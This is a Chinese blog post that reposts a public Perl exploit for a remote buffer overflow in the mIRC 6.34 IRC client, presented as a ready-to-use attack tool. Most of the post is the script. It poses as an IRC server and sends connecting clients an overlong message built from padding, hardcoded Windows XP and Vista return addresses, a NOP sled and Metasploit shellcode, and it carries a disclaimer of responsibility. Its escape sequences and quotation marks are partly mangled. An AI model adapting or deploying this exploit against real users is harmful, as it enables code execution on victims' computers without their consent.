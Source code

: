 ```yaml
---
title: mIRC 6.34 远程缓冲区溢出漏洞利用工具
description: 好久没给大家提供漏洞类的东西了，这个blog都快成软件类blog了，究其原因，是因为夜火我技术太菜了，很多漏洞看不懂，看不懂的我也懒得发，以免过多的人说俺装B。但是也不能不发吧，发出来的文章，技术深度肯定要浅些的，甚至不用太多技术。比如直接的利用工具，这篇文章就是。mIRC6.34RemoteBufferOverflowExploitmIRC6.34远程缓冲区溢出漏洞利用工具#!/usr/bin/perl......
date: 2008-10-06 08:58:26
category: 漏洞信息
tags: ['mIRC', '漏洞信息', 'exploit']
post_id: 631
alias: mIRC-6.34-Remote-Buffer-Overflow-Exploit
ViewNums: 2723
---
```


好久没给大家提供[漏洞类](http://www.15897.com/category/6)的东西了，[这个blog](/blog/)都快成软件类blog了，究其原因，是因为[夜火](/blog/)我技术太菜了，很多漏洞看不懂，看不懂的我也懒得发，以免过多的人说俺装B。

但是也不能不发吧，发出来的文章，技术深度肯定要浅些的，甚至不用太多技术。比如直接的利用[工具](/tags/%E5%B7%A5%E5%85%B7%E5%85%B1%E4%BA%AB)，这篇文章就是。

**mIRC 6.34 Remote Buffer Overflow Exploit****mIRC 6.34 远程缓冲区溢出漏洞利用工具**

#!/usr/bin/perl
#
#
# mIRC 6.34 Remote Buffer Overflow Exploit
# Exploit by SkD (skdrat <at> hotmail <.> com)
# —————————————-
# A day’s work of debugging and looking at mIRC.
#
# Tested on Windows XP SP3 English and Windows Vista SP0.
#
# Credits to securfrog for publishing the PoC.
#
# Author has no responsibility over the damage you do with this!
#
# Note: You might change the addresses for Vista ;)
#
# —————————————-

use IO::Socket;

if(!($ARGV[1]))
{
print “
[x] mIRC 6.34 Remote Buffer Overflow Exploit
”;
print “[x] Exploit by SkD (skdrat@ hotmail.com)
”;
print “[x] Use: mirc_exp.pl <port> <OS = 1 for XP Sp3 AND 2 for Vista SP0>
[x] Example: mirc_exp.pl 6667 0
”;
exit;
}

while(1)
{

my $sock=new IO::Socket::INET (
Listen => 1,

LocalAddr => ‘127.0.0.1′,

LocalPort => $ARGV[0],

Proto => ‘tcp’);

die unless $sock;

# win32_exec - EXITFUNC=seh CMD=calc Size=160 Encoder=PexFnstenvSub http://metasploit.com
my $shellcode =
“x2bxc9x83xe9xdexd9xeexd9x74x24xf4x5bx81x73x13x1e”.
“x95x97xf1x83xebxfcxe2xf4xe2x7dxd3xf1x1ex95x1cxb4″.
“x22x1exebxf4x66x94x78x7ax51x8dx1cxaex3ex94x7cxb8″.
“x95xa1x1cxf0xf0xa4x57x68xb2x11x57x85x19x54x5dxfc”.
“x1fx57x7cx05x25xc1xb3xf5x6bx70x1cxaex3ax94x7cx97″.
“x95x99xdcx7ax41x89x96x1ax95x89x1cxf0xf5x1cxcbxd5″.
“x1ax56xa6x31x7ax1exd7xc1x9bx55xefxfdx95xd5x9bx7a”.
“x6ex89x3ax7ax76x9dx7cxf8x95x15x27xf1x1ex95x1cx99″.
“x22xcaxa6x07x7exc3x1ex09x9dx55xecxa1x76x65x1dxf5″.
“x41xfdx0fx0fx94x9bxc0x0exf9xf6xf6x9dx7dx95x97xf1″;

print “[x] Listening on port “.$ARGV[0].”..
”;
$s=$sock->accept();
print “[x] Got a user!
”;
$overflow = “x41″ x 307;
$overflow2 = “B” x 12;
$eip_vista = “x66x1cxc2x76″; #Normaliz.DLL pop pop ret
$eip2_vista = “xd3xdbx54x77″; #MSFCT.DLL jmp esp
$eip_xpsp3 = “xd1xfbx92x77″; #SETUPAPI.DLL 0×7792FBD1 pop eax pop ret
$eip2_xpsp3 = “xb7x87x9dx77″; #SETUPAPI.DLL 0×779D87B7 jmp esp
$addr = “xb5xb5xfdx7f”;
$nop_sled = “x90″ x 4;
$jmp = “xEBx03xFFxFF”;

print “[x] Sending packets..
”;

print $s “:my_irc_server.com 001 wow :Welcome to the Internet Relay Network wow
”;
sleep(1);
if($ARGV[1] == “1″){
print $s “:”.$overflow.$eip_xpsp3.$addr.$nop_sled.$eip2_xpsp3.$nop_sled.$overflow2.$jmp.$nop_sled.$shellcode.$nop_sled.” PRIVMSG wow : /FINGER wow.
”;
}else{
print $s “:”.$overflow.$eip_vista.$addr.$nop_sled.$eip2_vista.$nop_sled.$overflow2.$jmp.$nop_sled.$shellcode.$nop_sled.” PRIVMSG wow : /FINGER wow.
”;
}
print “[x] Check it out!
”;
}

# milw0rm.com [2008-10-04]

